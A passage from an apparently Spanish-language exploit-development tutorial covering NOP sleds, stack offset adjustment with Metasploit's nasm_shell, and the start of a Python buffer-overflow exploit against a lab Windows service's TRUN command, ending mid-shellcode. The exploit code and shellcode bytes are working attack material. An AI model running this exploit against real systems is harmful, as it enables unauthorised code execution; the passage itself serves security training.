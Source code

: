 <br>

<h3 id="Décimo">Décimo Paso: Aplicando NOPs y Desplazamiento de Pila en Exploit</h3>

Recordemos que son los **NOPs**:

| **No Operation (NOPs)** |
|:-----------:|
| *Los NOPs (del inglés No Operation, "sin operación") son instrucciones en lenguaje máquina o ensamblador que no realizan ninguna acción útil, excepto avanzar al siguiente ciclo de la CPU. Permiten que el procesador tenga tiempo adicional para interpretar el shellcode antes de continuar con la siguiente instrucción del programa.* |

<br>

Es muy simple, únicamente debemos agregar la siguiente instrucción que es para **arquitectura x86**:
```bash
b"\x90"
```
El **NOP**, se puede multiplicar por 16 o por 32, pero en nuestro caso, al no tener tantas instrucciones, podemos multiplicarlo por 16.

Esto lo podemos agregar al Exploit en la variable **after_eip** junto al **Shellcode**:
```python
after_eip = b"\x90"*16 + shellcode  # ESP = Combinación de NOPs con shellcode
```

Lo que sigue es aplicar el **desplazamiento de pila**, pero entendamos de que se trata este paso:

| **Desplazamiento de Pila (stack offset)** |
|:-----------:|
| *Un desplazamiento de pila (stack offset) se refiere al cambio de posición de un dato dentro de la pila de ejecución de un programa, ya sea por instrucciones del código, llamadas a funciones o por una manipulación no intencionada (como en un buffer overflow). La pila funciona con una estructura LIFO (Last In, First Out) y se maneja a través de registros como: ESP (Stack Pointer) que apunta a la cima de la pila y EBP (Base Pointer) que apunta a la base del frame de la función actual. * |

<br>

Ahora, para aplicar el **desplazamiento de pila**, debemos usar la herramienta **nasm_shell** de **Metasploit**, que ya usamos para obtener el **OpCode (JMP ESP)**, actívalo y escribe lo siguiente: `sub esp,0x10`:
```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > sub esp,0x10
00000000  83EC10            sub esp,byte +0x10
nasm > exit
```

Lo que estamos haciendo, es decrementar el valor del **puntero de pila** de **16 bytes**.

Agrega esa dirección al Exploit y ejecútalo:
```python
payload = b"TRUN /.:/" + before_eip + eip + b"\x83\xEC\x10" + after_eip
```

Sigamos.

<br>

<h3 id="Undecimo">Undécimo Paso: Prueba y Ejecución de Exploit</h3>

En este punto, el Exploit debería quedarte así:

```python
#!/usr/bin/python3

from struct import pack
import socket

# Variables globales
ip_addr = "IP_maquina_windows"
port = 9999
offset = 2003
before_eip = b"A"*offset
eip = pack("<L", 0x62501203)

shellcode =  (b"\xdb\xcd\xd9\x74\x24\xf4\xba\x7a\xe1\xd9\x25\x5e\x31\xc9"
```